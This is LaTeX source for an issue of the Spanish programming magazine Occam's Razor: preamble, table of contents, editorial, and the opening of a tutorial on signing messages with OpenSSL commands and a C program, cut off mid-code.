% Este fichero es parte del N�mero 4 NE de la Revista Online Occam's Razor
% Revista On-line Occam's Razor N�mero 4 Nueva �poca
%
% (c)  2019, The Occam's Razor Team
%
% Esta obra est� bajo una licencia Reconocimiento 3.0 Espa�a de
% Creative Commons. Para ver una copia de esta licencia, visite
% http://creativecommons.org/licenses/by/3.0/es/ o envie una carta a
% Creative Commons, 171 Second Street, Suite 300, San Francisco,
% California 94105, USA. 


\documentclass[10pt,a4paper,twoside]{article}


% Paquetes... probablemente alguno no sea necesario
% 

\usepackage[latin1]{inputenc}
%\usepackage[utf8]{inputenc}
\usepackage[greek,spanish]{babel}  % S�mbolo del euro
\usepackage{graphicx}
\usepackage{a4,fancyhdr, multicol}
\usepackage{float}
\usepackage{pdftricks}
%\usepackage[pdf]{pstricks}
\usepackage{color}
%\usepackage{pst-plot}
\usepackage{pst-eps}
\usepackage{wrapfig}
\usepackage{eso-pic}
\usepackage{listings}
\usepackage{textpos}
\usepackage{epsf}
\usepackage{setspace}
\usepackage{hyperref}
\usepackage{colortbl}
\usepackage{multirow}
\usepackage{mathtools,amssymb,amsthm} 

\usepackage[font=small,labelfont=bf]{caption} 

% Configuraci�n de Hyperenlaces.
% Uso del paquete hyperref sugerido por Cruz Enrique Borges Hern�ndez
\hypersetup{
    bookmarks=true,        % show bookmarks bar?
    colorlinks=true,       % false: boxed links; true: colored links
    linkcolor=red,         % color of internal links
    citecolor=green,       % color of links to bibliography
    filecolor=magenta,     % color of file links
    urlcolor=blue          % color of external links
}



%\usepackage[sfdefault,condensed]{roboto}
%\usepackage[sfdefault]{roboto}
\usepackage[default]{lato}
\renewcommand*\sfdefault{ugq}
\usepackage[T1]{fontenc} 




% Configuraci�n de tama�o de p�gina
\setlength{\parindent}{0in}
\setlength{\parskip}{0.1cm}
\setlength{\oddsidemargin}{0.05mm}
\setlength{\evensidemargin}{0.05mm}

\setlength{\headsep}{-0.6cm}
%\setlength{\footsep}{-1.0cm}
\setlength\headheight{2.1cm}

\addtolength{\textwidth}{4cm}
\addtolength{\topmargin}{-2.5cm}
\addtolength{\textheight}{3.4cm}

%\addtolength{\headwidth}{-1.2\marginparsep}
%\addtolength{\headwidth}{-1.2\marginparwidth}

\newcommand{\hsection}[4]{
  {\begin{flushright}{
        {\psset{linecolor=#1,linestyle=dotted}
          \psline(-14,0.05)(1,0.05)}
        \colorbox{#1}{
          \begin{minipage}{#3\linewidth}
            \center
            \textcolor{#2}{
              \textsf{\textbf{#4}}}            
          \end{minipage}
        }
        }
  \end{flushright}}
  \vspace{4mm}
}


\newcommand{\hhsection}[4]{
  {\begin{flushleft}{
        {\psset{linecolor=#1,linestyle=dotted}
          \psline(17,0.05)(1,0.05)}
        \colorbox{#1}{
          \begin{minipage}{#3\linewidth}
            \center
            \textcolor{#2}{
              \textsf{\textbf{#4}}}
          \end{minipage}
        }
        }
  \end{flushleft}}
  \vspace{4mm}
}





\fancypagestyle{divulgacion}{
    %\fancyhead{}
  \fancyhead{}
  \fancyfoot{} % clear all footer fields

  \fancyhead[RE]{\hsection{purple}{white}{0.14}{DIVULGACI�N}}
  \fancyhead[LO]{\hhsection{purple}{white}{0.14}{DIVULGACI�N}}

  \fancyfoot[LE]{\textbf{\textsf{OCCAM's Razor | \thepage}}}
  \fancyfoot[RO]{\textbf{\textsf{\thepage | OCCAM's Razor}}}
  \renewcommand{\footrulewidth}{0.4pt}
  
  \renewcommand{\headrulewidth}{0pt}
  }


\fancypagestyle{trucos}{
    %\fancyhead{}
  \fancyhead{}
  \fancyfoot{} % clear all footer fields

  \fancyhead[RE]{\hsection{lime}{black}{0.14}{TRUCOS}}
  \fancyhead[LO]{\hhsection{lime}{black}{0.14}{TRUCOS}}

  \fancyfoot[LE]{\textbf{\textsf{OCCAM's Razor | \thepage}}}
  \fancyfoot[RO]{\textbf{\textsf{\thepage | OCCAM's Razor}}}
  \renewcommand{\footrulewidth}{0.4pt}
  
  \renewcommand{\headrulewidth}{0pt}
  }






\fancypagestyle{ratas}{
    %\fancyhead{}
  \fancyhead{}
  \fancyfoot{} % clear all footer fields

  %\fancyhead[LE,RO]{\textbf{\textsf{RATAS}}}
  \fancyhead[RE]{\hsection{introcolor}{black}{0.2}{RATAS DE BIBLIOTECA}}
  \fancyhead[LO]{\hhsection{introcolor}{black}{0.2}{RATAS DE BIBLIOTECA}}
  \fancyfoot[LE]{\textbf{\textsf{OCCAM's Razor | \thepage}}}
  \fancyfoot[RO]{\textbf{\textsf{\thepage | OCCAM's Razor}}}
  \renewcommand{\footrulewidth}{0.4pt}
  
  \renewcommand{\headrulewidth}{0pt}
  }



\fancypagestyle{geek}{
    %\fancyhead{}
  \fancyhead{}
  \fancyfoot{} % clear all footer fields

  %\fancyhead[LE,RO]{\textbf{\textsf{RATAS}}}
  \fancyhead[RE]{\hsection{violet}{white}{0.2}{ZONA GEEK}}
  \fancyhead[LO]{\hhsection{violet}{white}{0.2}{ZONA GEEK}}
  \fancyfoot[LE]{\textbf{\textsf{OCCAM's Razor | \thepage}}}
  \fancyfoot[RO]{\textbf{\textsf{\thepage | OCCAM's Razor}}}
  \renewcommand{\footrulewidth}{0.4pt}
  
  \renewcommand{\headrulewidth}{0pt}
  }

\fancypagestyle{dcine}{
    %\fancyhead{}
  \fancyhead{}
  \fancyfoot{} % clear all footer fields

  \fancyhead[RE]{\hsection{blue}{yellow}{0.14}{DCINE}}
  \fancyhead[LO]{\hhsection{blue}{yellow}{0.14}{DCINE}}

  \fancyfoot[LE]{\textbf{\textsf{OCCAM's Razor | \thepage}}}
  \fancyfoot[RO]{\textbf{\textsf{\thepage | OCCAM's Razor}}}
  \renewcommand{\footrulewidth}{0.4pt}
  
  \renewcommand{\headrulewidth}{0pt}
  }



\fancypagestyle{seguridad}{
    %\fancyhead{}
  \fancyhead{}
  \fancyfoot{} % clear all footer fields

  \fancyhead[RE]{\hsection{black}{green}{0.14}{SEGURIDAD}}
  \fancyhead[LO]{\hhsection{black}{green}{0.14}{SEGURIDAD}}

  \fancyfoot[LE]{\textbf{\textsf{OCCAM's Razor | \thepage}}}
  \fancyfoot[RO]{\textbf{\textsf{\thepage | OCCAM's Razor}}}
  \renewcommand{\footrulewidth}{0.4pt}
  
  \renewcommand{\headrulewidth}{0pt}
  }


\fancypagestyle{hacking}{
    %\fancyhead{}
  \fancyhead{}
  \fancyfoot{} % clear all footer fields

  \fancyhead[RE]{\hsection{black}{green}{0.22}{APRENDE HACKING}}
  \fancyhead[LO]{\hhsection{black}{green}{0.22}{APRENDE HACKING}}

  \fancyfoot[LE]{\textbf{\textsf{OCCAM's Razor | \thepage}}}
  \fancyfoot[RO]{\textbf{\textsf{\thepage | OCCAM's Razor}}}
  \renewcommand{\footrulewidth}{0.4pt}
  
  \renewcommand{\headrulewidth}{0pt}
  }



\fancypagestyle{pvc}{
    %\fancyhead{}
  \fancyhead{}
  \fancyfoot{} % clear all footer fields

  %\fancyhead[LE,RO]{\textbf{\textsf{RATAS}}}
  \fancyhead[RE]{\hsection{orange}{black}{0.25}{VITAMINA C}}
  \fancyhead[LO]{\hhsection{orange}{black}{0.25}{VITAMINA C}}
  \fancyfoot[LE]{\textbf{\textsf{OCCAM's Razor | \thepage}}}
  \fancyfoot[RO]{\textbf{\textsf{\thepage | OCCAM's Razor}}}
  \renewcommand{\footrulewidth}{0.4pt}
  
  \renewcommand{\headrulewidth}{0pt}
  }


\fancypagestyle{como}{
    %\fancyhead{}
  \fancyhead{}
  \fancyfoot{} % clear all footer fields

  %\fancyhead[LE,RO]{\textbf{\textsf{RATAS}}}
  \fancyhead[RE]{\hsection{violet}{white}{0.2}{COMO FUNCIONA}}
  \fancyhead[LO]{\hhsection{violet}{white}{0.2}{COMO FUNCIONA}}

  \fancyfoot[LE]{\textbf{\textsf{OCCAM's Razor | \thepage}}}
  \fancyfoot[RO]{\textbf{\textsf{\thepage | OCCAM's Razor}}}
  \renewcommand{\footrulewidth}{0.4pt}
  
  \renewcommand{\headrulewidth}{0pt}
  }



\fancypagestyle{mala-bestia}{
      %\fancyhead{}
  \fancyhead{}
  \fancyfoot{} % clear all footer fields

  %\fancyhead[LE,RO]{\textbf{\textsf{RATAS}}}
    \fancyhead[RE]{\hsection{cyan}{black}{0.15}{MALA BESTIA}}
  \fancyhead[LO]{\hhsection{cyan}{black}{0.15}{MALA BESTIA}}

  \fancyfoot[LE]{\textbf{\textsf{OCCAM's Razor | \thepage}}}
  \fancyfoot[RO]{\textbf{\textsf{\thepage | OCCAM's Razor}}}
  \renewcommand{\footrulewidth}{0.4pt}
  
  \renewcommand{\headrulewidth}{0pt}
  }

\fancypagestyle{linux}{
    %\fancyhead{}
  \fancyhead{}
  \fancyfoot{} % clear all footer fields

  %\fancyhead[LE,RO]{\textbf{\textsf{RATAS}}}
  \fancyhead[RE]{\hsection{teal}{white}{0.25}{GNU/LINUX}}
  \fancyhead[LO]{\hhsection{teal}{white}{0.25}{GNU/LINUX}}
  \fancyfoot[LE]{\textbf{\textsf{OCCAM's Razor | \thepage}}}
  \fancyfoot[RO]{\textbf{\textsf{\thepage | OCCAM's Razor}}}
  \renewcommand{\footrulewidth}{0.4pt}
  
  \renewcommand{\headrulewidth}{0pt}
  }

\fancypagestyle{fpn}{
    %\fancyhead{}
  \fancyhead{}
  \fancyfoot{} % clear all footer fields

  \fancyhead[RE]{\hsection{pink}{black}{0.14}{FEN�MENOS EXTRA�OS}}
  \fancyhead[LO]{\hhsection{pink}{black}{0.14}{FEN�MENOS EXTRA�OS}}

  \fancyfoot[LE]{\textbf{\textsf{OCCAM's Razor | \thepage}}}
  \fancyfoot[RO]{\textbf{\textsf{\thepage | OCCAM's Razor}}}
  \renewcommand{\footrulewidth}{0.4pt}
  
  \renewcommand{\headrulewidth}{0pt}
  }


%\pagestyle{fancy}
% Configuraci�n de Cabeceras Fancy Header
%\fancyhead{}
%\fancyfoot{} % clear all footer fields
%\fancyfoot[LE]{\textbf{\textsf{OCCAM's Razor | \thepage}}}
%\fancyfoot[RO]{\textbf{\textsf{\thepage | OCCAM's Razor}}}
%\renewcommand{\footrulewidth}{0.4pt}

% Elimina l�neas de cabecera
% 
%\renewcommand{\headrulewidth}{0pt}

% Colores
\definecolor{introcolor}{rgb}{0.8,1.0,0.8}
\definecolor{listcolor}{rgb}{0.2,0.4,0.2}
\definecolor{titlecolor}{rgb}{0.4,0.5,0.1}
\definecolor{excolor}{rgb}{0.8,0.8,0.8}
\definecolor{notecolor}{rgb}{0.4,0.4,1.0}

% ********************************************************
% Definici�n de Comandos y Entornos
% ********************************************************

% Comandos de uso general
% ---------------------------------------------------------
% Secciones t�tulos y subt�tulos de cada p�gina
\newcommand{\msection}[4]{
{\begin{flushright}{
{\psset{linecolor=black,linestyle=dotted}\psline(-17,0)}
\colorbox{#1}{
\begin{minipage}{#3\linewidth}
\center
  \textcolor{#2}{
    \textsf{\textbf{#4}}}
\end{minipage}
}}\end{flushright}}

\vspace{4mm}
}

\newcommand{\mtitle}[2]{
  {\resizebox{#1}{0.7cm}{\textbf{\textsf{#2}}}}
  \vspace{1mm}
}


\newcommand{\msubtitle}[2]{
  {\resizebox{#1}{0.5cm}{{\gray{\textbf{\textsf{#2}}}}}}
  \vspace{1mm}
}

% Principio de P�gina. Pone el cuadro superior con la secci�n
\newcommand{\bOpage}[3]{
  \msection{#1}{black}{#2}{#3}
  \begin{multicols}{2}
}

% Fin de p�gina. Termina el entorno multicols
\newcommand{\eOpage}{
\pagebreak
\end{multicols}
}

% Fin e Inicio de P�gina. Sino utilizamos figuras fuera de las
% columnas del cuerpo principal, esta es la forma adecuada de marcar
% cada p�gina
\newcommand{\ebOpage}[3]{
\eOpage
\bOpage{#1}{#2}{#3}
}

% Crea el cuadro de introducci�n al principio de cada art�culo
\newcommand{\intro}[3]{
\colorbox{#1}{\large
  \begin{minipage}{.98\linewidth}
    \vspace{2mm}
    {\colorbox{black}{\color{white}{\resizebox{!}{1.0cm}{#2}}}{ #3}}
  \vspace{1mm}
  \end{minipage}
}
\vspace{4mm}
}



\newcommand{\introA}[3]{
\colorbox{#1}{
  \begin{minipage}{\linewidth}
    \vspace{2mm}
    {\colorbox{black}{\color{white}{\resizebox{!}{1.0cm}{#2}}}{#3}}
  \vspace{1mm}
  \end{minipage}
}
\vspace{4mm}
}



% Comando para introducir figura en entorno multicol
\newcommand{\myfig}[3]{
\begin{center}
  \includegraphics[width=#3\hsize,angle=#1]{#2}
  \nobreak
\end{center}}

% Caption para figuras en entorno multicol
\setcounter{figure}{1}
\newcommand{\mycaption}[1]{
  \begin{quote}
    {\small
    {{\sc Figura} \arabic{figure}: #1}
    }
  \end{quote}
  \stepcounter{figure}
}


% Comandos para utilizar tablas y figuras en entorno multicols
\makeatletter
\newenvironment{tablehere}
  {\def\@captype{table}}
  {}

\newenvironment{figurehere}
  {\def\@captype{figure}}
  {}
\makeatother

% Caption para figuras en entorno multicol sin contador
\newcommand{\nncaption}[1]{
  %\begin{quote}
    {\footnotesize{\textbf{
    {#1}
    }}}
  %\end{quote}
}

\newcommand{\sectiontext}[3]{\vspace{4mm}{{\textcolor{titlecolor}{\large{\textbf{\textsf{#3}}}}}}
\vspace{1mm}
}

%\newcommand{\sbullet}{\,\begin{picture}(1,1)(0,-3)\circle*{3}\end{picture}\ }
\newcommand{\EOP}{\psframe[fillstyle=solid, fillcolor=titlecolor,
linecolor=titlecolor](0,0)(4pt,4pt)}
%\newcommand{\EOP}{\psframe[fillstyle=solid, fillcolor=black, linecolor=black](0,0)(4pt,6pt)}

% Entornos (begin... end)
% ----------------------------------------------------
% Entorno para introducir ejemplos
\newenvironment{mexample}{
  \vspace{2mm}
  \bgroup
  \tiny
}{
  \egroup
  \vspace{4mm}
}

% Entorno para introducir entradillas en el texto
\newenvironment{entradilla}{
  \vspace{5mm}
  \color{introcolor}{\hrule }
  \color{black}
  \vspace{2mm}
  \bgroup
  \LARGE
\begin{spacing}{0.6}
}{
\end{spacing}
  \egroup
  \vspace{5mm}
  \color{introcolor}{\hrule height 3pt}
  \vspace{5mm}
}



% **************************************************************************
% Comienza el documento
\begin{document}

% Portada, no utiliza Fancy Header e introduce imagen de portada con PStricks
\pagestyle{empty}

\rput(8,-13){\epsfbox{images/portada.eps}}

\clearpage
\pagebreak

% Imagen con el sumario en la siguiente p�gina
%\rput(8,-14.0){\resizebox{!}{30cm}{{\epsfbox{images/sumario.eps}}}}



%\pagebreak

% Activa Fancy Headers stilo e incluye los distintos art�culos
\pagestyle{fancy}

\definecolor{introcolor}{rgb}{0.6,0.7,0.3}

\pagestyle{empty}

{\color{white}{.}}
%\vspace{10mm}

\rput(7.9,-25.4){\resizebox{21.0cm}{!}{{\epsfbox{images/general/tools.eps}}}}

\begin{flushright}

{\footnotesize{N�MERO 8 - MARZO 2025}}\\
{\textsf{Segunda �poca}} 


{\large{REVISTA ONLINE OCCAM'S RAZOR}}\\
{\color{introcolor}{\bf Porque lo m�s sencillo es lo m�s probable}}

\vspace{0.5cm}


{\resizebox{!}{1.8cm}{\textsf{SUMARIO}}}
\end{flushright}


\begin{tabular}{ll}
  \hline
  \multirow{4}{*}{
    \colorbox{lightgray}{\resizebox{!}{1.1cm}{\hyperlink{ratas:firmado1}{\pageref*{ratas:firmado}}}} 
  }
  &  \\
  & {\textsf{RATAS DE BIBLIOTECA}}\\
  & \large\bf{Firmado Digital de Mensajes con OPenSSL} \\
  & {\em por Don Bit0}   \vspace {0.2cm}\\

  \hline
  \multirow{4}{*}{
    \colorbox{lightgray}{\resizebox{!}{1.1cm}{\hyperlink{prog:nolibc1}{\pageref*{prog:nolibc}}}} 
  }
  &  \\
  & {\textsf{PILDORAS DE VITAMINA C}}\\
  & \large\bf{Programas sin dependencias con NoLibC} \\
  & {\em por Richi C. Poweri}   \vspace {0.2cm}\\



  \hline
  \multirow{4}{*}{
    \colorbox{lightgray}{\resizebox{!}{1.1cm}{\hyperlink{hacking:claves1}{\pageref*{hacking:claves}}}} 
  }
  &  \\
  & {\textsf{HACKING}}\\
  & \large\bf{C�mo Extraer Claves de un Programa en Ejecuci�n} \\
  & {\em por Yvil Yenius}   \vspace {0.2cm}\\



  \hline
  \multirow{4}{*}{
    \colorbox{lightgray}{\resizebox{!}{1.1cm}{\hyperlink{fpn:jump1}{\pageref*{fpn:jump}}}} 
  }
  &  \\
  & {\textsf{FEN�MENOS EXTRA�OS}}\\
  & \large\bf{Saltar en Medio de una Funci�n} \\
  & {\em por Carolyn Lightrun}   \vspace {0.2cm}\\


  \hline
  \multirow{4}{*}{
    \colorbox{lightgray}{\resizebox{!}{1.1cm}{\hyperlink{como:python1}{\pageref*{como:python}}}} 
  }
  &  \\
  & {\textsf{C�MO..}}\\
  & \large\bf{Usar Python como Lenguaje de Script} \\
  & {\em por Nelly Kerningahm}   \vspace {0.2cm}\\


  \hline
  \multirow{4}{*}{
    \colorbox{lightgray}{\resizebox{!}{1.1cm}{\hyperlink{seguridad:zero1}{\pageref*{seguridad:zero}}}} 
  }
  &  \\
  & {\textsf{SEGURIDAD PARA MEROS MORTALES}}\\
  & \large\bf{Doble Cero. Con licencia para Hackear} \\
  & {\em por Andr�s ``Andy'' Pajuaker}   \vspace {0.2cm}\\





  \hline
  \multirow{4}{*}{
    \colorbox{lightgray}{\resizebox{!}{1.1cm}{\hyperlink{trucos1}{\pageref*{trucos}}}}

  }
  &  \\
  & {\textsf{TRUCOS}} \\
  & \large\bf{Con un por... de l�neas} \\
  & {\em por Tamariz el de la Perd�z}   \vspace {0.2cm}\\

\end{tabular}

\vspace{0.4cm}

\textsf{Esta revista ha sido realizada con:}

\clearpage

\pagebreak
 

% Este fichero es parte del N�mero 4 de la Revista Online Occam's Razor
% Revista Online Occam's Razor N�mero 4
%
% (c)  20019, The Occam's Razor Team
%
% Esta obra est� bajo una licencia Reconocimiento 3.0 Espa�a de
% Creative Commons. Para ver una copia de esta licencia, visite
% http://creativecommons.org/licenses/by/3.0/es/ o envie una carta a
% Creative Commons, 171 Second Street, Suite 300, San Francisco,
% California 94105, USA. 

\rput(6,-1.3){\resizebox{!}{6cm}{{\epsfbox{images/general/editorial-pluma.eps}}}}
\rput(0.0,-13){\resizebox{7cm}{35.0cm}{{\epsfbox{images/general/bar.eps}}}}
\rput(0.4,-4.3){\resizebox{!}{4.8cm}{{\epsfbox{images/portada-thumb.eps}}}}
\rput(0.4,-18.6){\resizebox{!}{1.7cm}{{\epsfbox{images/general/ibolcode.eps}}}}
\rput(0.7,-26){\resizebox{!}{0.9cm}{{\epsfbox{images/general/licencia.eps}}}}

\begin{textblock}{9.2}(3,0)
\begin{flushright}
{\resizebox{!}{1.3cm}{\textsf{Editorial}}}

\vspace{2mm}

{\LARGE N�mero 8. Al fin!}

by The Occam Team
\end{flushright}
\end{textblock}

\vspace{4mm}


\definecolor{barcolor}{rgb}{0.9,0.9,0.9}

\begin{textblock}{30}(-1.5, -1)
\begin{minipage}{0.12\linewidth}
\sf\color{barcolor}
\begin{center}

\vspace{1cm}

\colorbox{black}{
{\resizebox{3cm}{0.7cm}{\textcolor{white}{\bf\sf\large Occam's}}}
}

{\resizebox{2.5cm}{0.4cm}{\bf\sf\large Razor}}

\vspace{4mm}

{\bf N�mero 8, A�o 2025}

\vspace{5cm}

\hrule

\vspace{4mm}

Direcci�n:

\vspace{1mm}

{\bf David Mart�nez Oliveira}

\vspace{2mm}



{Colaboradores:}

\vspace{1mm}
{\bf Yvil Yenius, Nelly Kerningham, Richi C. Poweri, Don Bit0, Carolyn LightRun, Tamariz el de la Perdiz}



\vspace{4mm}

%\vspace{8mm}

\hrule

\vspace{4mm}

{Maquetaci�n y Grafismo}

{\bf DeMO}


\vspace{2mm}

\hrule

\vspace{4mm}

{Contacto Colaboradores}

{\tt roor-colabora@ibolcode.net}

\vspace{2mm}

\hrule

\vspace{4mm}

{ Publicidad}

\vspace{1mm}

{\bf Occam's Razor Direct}

{\tt roor-ad@ibolcode.net}

\vspace{2mm}

\hrule

\vspace{4mm}

{Impresi�n}

{\bf Por ahora tu mismo\ldots Si te apetece}

\vspace{2mm}

\hrule

\hrule

\vspace{4mm}

{Editada por}


\vspace{20mm}

{\bf \copyright 2025 IbolCode/Occam's Razor

Esta obra est� bajo una licencia Reconocimiento 3.0 Espa�a de Creative
Commons. Para ver una copia de esta licencia, visite
http://creativecommons.org/\\licenses/by/3.0/es/ o envie una carta a
Creative Commons, 171 Second Street, Suite 300, San Francisco,
California 94105, USA.
}
\end{center}
\end{minipage}

\end{textblock}

\begin{textblock}{20}(3,2.0)

\begin{minipage}{.45\linewidth}
\colorbox{introcolor}{
\begin{minipage}{1\linewidth}

{{\resizebox{!}{1.0cm}{C}}{on algo m�s que un poco de retraso llega este nuevo n�mero que deber�a haber visto la luz en Navidades, pero lo hace un par de meses m�s tarde. A�n as� esperamos que os guste y que le pod�is sacar alg�n partido a este n�mero 8.
}
}

\end{minipage}
}

\vspace{6mm}

Este es un n�mero cortito pero con unos art�culos que esperamos os resulten interesantes. En primer lugar Nelly nos trae un extenso art�culo en el que nos cuenta como usar Python como lenguaje de script en nuestros programas C. El art�culo cubre todos los detalles del tema y como parte de ello nos cuenta como escribir extensiones Python e incluso convertir cualquier programa Python en un programa ejecutable autocontenido. Super interesante.

\bigskip

Por otra parte, Yvil continua jugando con las contrase�as y, en esta ocasi�n, nos explica como utilizar t�cnicas de hackeo de juegos para extraer informaci�n de programas en ejecuci�n. Como por ejemplo una clave.

\bigskip

Otro interesante art�culo de la mano de Richi sobre NoLibC. Si no conoces esta librer�a no te pierdas el art�culo en el que Richi te explica como utilizarla y todos los detalles sobre que se puede y no se puede hacer con ella.

\bigskip

Carolyn vuelve con otro fen�meno extra�o de programaci�n que analiza y convierte en una interesante t�cnica de ofuscaci�n de c�digo. Analizando como podr�amos saltar en medio de una funci�n en C, Carolyn explora los detalles t�cnicos de las llamadas a funciones y como confundir a los desensambladores para mantener c�digo oculto.

\bigskip

Don Bit0 continua desentra�ado todos los secreto de OpenSSL y en esta ocasi�n nos cuenta como firmar mensajes digitalmente y, como siempre, Tamar�z nos trae los mejores trucos.


\bigskip

Como siempre no dud�is en enviarnos vuestros comentarios, ideas, cr�ticas (siempre constructivas) para mejorar esta vuestra revista. Solo deciros que ya estamos trabajando en el siguiente n�mero y que como siempre, si tienes alg�n tema del que quieras escribir solo tienes que ponerte en contacto con nosotros. 


\begin{flushright}
{\Large\sc{The Occam's Razor \\Team}}
\end{flushright}

\end{minipage}

\bigskip

\colorbox{introcolor}{
\begin{minipage}{.45\linewidth}

\bigskip

{\footnotesize\sf{\color{white}
Las opiniones expresadas en los art�culos, as� como los contenidos de
los mismos, son responsabilidad de los autores de �stos.

Puede obtener la versi�n electr�nica de esta publicaci�n, as� como el
{\em c�digo fuente} de la misma y los distintos ficheros de datos
asociados a cada art�culo en el sitio web:

{\tt http://ibolcode.net/roor}

}}

\bigskip

\end{minipage}
}


\end{textblock}

\pagebreak


\hypertarget{ratas:firmado1}{}\label{ratas:firmado}

\pagestyle{ratas}

\rput(7.9,-0.5){\resizebox{!}{12cm}{{\epsfbox{images/articulos/openssl_firma_header.eps}}}}

\psset{fillstyle=solid}
\psframe[fillcolor=black,opacity=0.7](2,-4.5)(17,0)



% -------------------------------------------------
% Cabecera
\begin{flushright}


{\color{introcolor}\mtitle{14cm}{Firmado Digital de Mensajes con OpenSSL}}

\msubtitle{8cm}{Como firmar tus propios mensajes}

{\sf\color{white}{ por Don Bit0}}

%{{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}}
\end{flushright}


\vspace{2mm}
% -------------------------------------------------


%\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\footnotesize}
\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}



\intro{introcolor}{E}{n el art�culo anterior vimos como usar algoritmos de cifrado
asim�tricos en general. En esta ocasi�n vamos a ver como usar esos
algoritmos asim�tricos para ofrecer servicios reales como el firmado de
mensajes. Esto lo podemos hacer utilizando las funciones que ya
conocemos, pero OpenSSL nos ofrece funciones alternativas que hacen este
proceso m�s sencillo.}


\begin{multicols}{2}


Pero primero vamos a introducir el concepto de firmado digital. El
firmado digital de un mensaje es un proceso por el cual se pretende
asegurar que el mensaje que hemos recibido proviene de una determinada
persona y adem�s no ha sido modificado por una tercera parte.

Con todo lo que sabemos deber�as ser capaz de implementar una sencilla
aplicaci�n de firmado digital, sin embargo, OpenSSL nos ofrece algunas
funciones adicionales que hacen la implementaci�n de una aplicaci�n de
cifrado muy sencilla.

\hypertarget{firmado-de-mensaje}{%
\sectiontext{white}{black}{FIRMADO DE MENSAJES}\label{firmado-de-mensaje}}

El proceso de firmado de un mensaje consiste en calcular un hash del
mensaje y, a continuaci�n, cifrar ese hash con la clave privada del
usuario que lo firma. De esta forma se cumple que:

\begin{itemize}

\item
  El hash original solo se puede recuperar usando la clave p�blica del
  firmante. Lo que significa que la firma fue, necesariamente, cifrada
  usando su clave privada que solo el sabe.
\item
  Una vez recuperado el hash que se almacena en la firma, el receptor
  del mensaje puede calcular el hash del mensaje recibido y compararlo
  con el que estaba cifrado en la firma, para verificar que el mensaje
  no ha sido modificado.
\end{itemize}

Veamos como funcionar�a esto usando la utilidad
{\verb!openssl!} de la l�nea de comandos. Lo primero
que vamos a hacer es generar dos claves para tres usuarios ficticios:
Berto y Ali (o Bob y Alice si lo prefieres):

\begin{lstlisting}
$ openssl genrsa -out berto.pem 2048
$ openssl genrsa -out ali.pem 2048
\end{lstlisting}

Ahora vamos a extraer las claves p�blicas que estar�n disponibles para
todos los usuarios de nuestros ejemplos:

\begin{lstlisting}
$ openssl rsa -in berto.pem  -pubout -out berto_publica.pem
$ openssl rsa -in ali.pem  -pubout -out ali_publica.pem
\end{lstlisting}

Ahora imaginemos que Berto quiere enviar una factura a Ali y quiere que
Ali pueda comprobar que la factura proviene de verdad de Berto y que
adem�s nadie la ha modificado en el camino. Berto har�a algo como esto:

\begin{lstlisting}
$ openssl dgst -sha256 -sign berto.pem \
> -out firma-factura.txt factura.txt
\end{lstlisting}

Esto genera un fichero binario, el cual podemos convertir en texto para
a�adirlo al mail o incluirlo al final de la factura. Para ello Berto
puede usar el siguiente comando:

\begin{lstlisting}
$ openssl base64 -in firma-factura.txt \
> -out firma-ascii-factura.txt
\end{lstlisting}

Llegados a este punto, Berto enviar�a la factura
{\verb!factura.txt!} junto con la
{\verb!firma-ascii-factura.txt!}. Cuando Ali recibe la
factura, puede verla directamente, la factura no est� cifrada, pero
tendr� que verificar que la firma digital incluida es correcta. Para
ello har�a algo como:

\begin{lstlisting}
$ openssl base64 -d -in fimra-ascii-factura.txt \
> -out /tmp/firma.txt
$ openssl dgst -sha256 -verify berto_publica.pem \
> -signature /tmp/firma.txt factura.txt
Verified OK
\end{lstlisting}

Imaginemos que ahora Marta, sigilosamente saca la factura del correo de
Alicia, la modifica haciendo que la cantidad sea mayor y cambia el
n�mero de cuenta en el que debe pagarla. Sin embargo, no puede generar
una firma que se verifique con la clave p�blica de Berto, puesto que no
conoce su clave privada. De esta forma, la firma original no se
corresponde con el fichero recibido y Alicia puede estar segura de que
la factura ha sido modificada.

Los comandos de arriba realmente hacen las siguientes operaciones:

\begin{itemize}

\item
  Calcular el hash del documento factura.txt usando el algoritmo sha256
\item
  Cifrar el hash usando la clave privada del firmante.
\end{itemize}

\hypertarget{implementando-nuestro-propio-programa-de-firmado}{%
\sectiontext{white}{black}{IMPLEMENTANDO TU PROPIO PROGRAMA DE FIRMADO}\label{implementando-nuestro-propio-programa-de-firmado}}

Como os adelant�bamos al principio, OpenSSL nos ofrece unas funciones
que facilitan el firmado de mensajes y, sab�is que?, que funcionan igual
que el resto de funciones que hemos estado usando hasta ahora.

Este es el programa que implementa el firmado digital de cualquier
fichero. Veamos primero todo el c�digo y luego prestemos atenci�n a las
partes interesantes:

\begin{lstlisting}[language=C]
#include <openssl/evp.h>
#include <openssl/err.h>
#include <openssl/decoder.h>

#include <stdio.h>
#include <stdlib.h>

int main (int argc, char *argv[]) {
  OSSL_LIB_CTX *libctx = NULL;
  
  /* Manejo de Claves Claves */
  OSSL_DECODER_CTX *dctx = NULL;
  EVP_PKEY_CTX     *pkctx = NULL;
  EVP_PKEY         *priv_key = NULL;
  
  /* Funci�n Hash*/
  const EVP_MD      *md;
  EVP_MD_CTX        *mdctx;

  if (argc != 4) {
    fprintf (stderr,
             "Usage:�\n%s private.pem hash-algo "
             "input_file\n",
         argv[0]);
    exit (1);
  }
  
  /* Usa el contexto de librer�a por defecto */
  libctx = NULL; 

  /* PASO 1: Adquirimos las claves para el firmado */
  /* --------------------------------------------- */
  dctx = OSSL_DECODER_CTX_new_for_pkey (&priv_key,
                    NULL, NULL, NULL,
                    EVP_PKEY_KEYPAIR,libctx, NULL);

  /* Lee par de claves */
  FILE *f = fopen (argv[1], "rb");
  OSSL_DECODER_from_fp(dctx, f);
  fclose (f);
  OSSL_DECODER_CTX_free(dctx);
  /* ------------------------------------- */
  
  /* PASO 2: Creamos funci�n Hash */
  /* ---------------------------- */
  if ((md = EVP_get_digestbyname (argv[2])) == NULL) {
        ERR_print_errors_fp (stderr);
  }
  mdctx = EVP_MD_CTX_create ();
  /* ------------------------------------- */

  /* PASO 3. Firmado del mensaje  */
  /* ---------------------------- */
  if (EVP_SignInit (mdctx, md) <= 0) {
    ERR_print_errors_fp (stderr);
    exit (1);
  }

  f = fopen (argv[3], "rb");
  unsigned char buf[1024];
  int           size;
  while (!feof (f)) {
    if ((size = fread (buf, 1, 1024, f)) <= 0) break;
    EVP_SignUpdate (mdctx, buf, size);
  }
  unsigned char sig[1024];
  unsigned int  sig_len;
    
  if (EVP_SignFinal(mdctx, sig, &sig_len, priv_key) <=0) {
